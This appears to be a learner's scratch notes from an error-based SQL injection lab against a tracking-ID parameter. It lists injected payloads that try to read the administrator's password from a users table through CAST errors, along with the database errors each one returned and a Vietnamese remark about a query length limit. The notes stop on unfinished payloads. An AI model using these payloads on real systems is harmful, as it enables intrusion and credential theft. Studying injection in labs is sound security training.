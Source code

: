 - '
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER''. Expected char

- '-- -> 200
- '' -> 200

/*
- '||  ||'
- '|| (SELECT password FROM users WHERE username = 'administrator') ||'
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER'|| (SELECT password FROM users WHERE userna'. Expected  char
Có vẻ như chỗ này bị giới hạn số lượng từ trong truy vấn

- '|| (CAST(SELECT password FROM users)) ||'
ERROR: syntax error at or near "SELECT"
  Position: 62

- '|| (CAST(SELECT password FROM users) AS int) ||'
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER'|| (CAST(SELECT password FROM users) AS int'. Expected  char

- '|| (CAST(SELECT 1) AS int) ||'
ERROR: syntax error at or near "SELECT"
  Position: 62
*/

- 'AND CAST((SELECT 1) AS int)--
ERROR: argument of AND must be type boolean, not type integer
- 'AND 1=CAST((SELECT 1) AS int)--












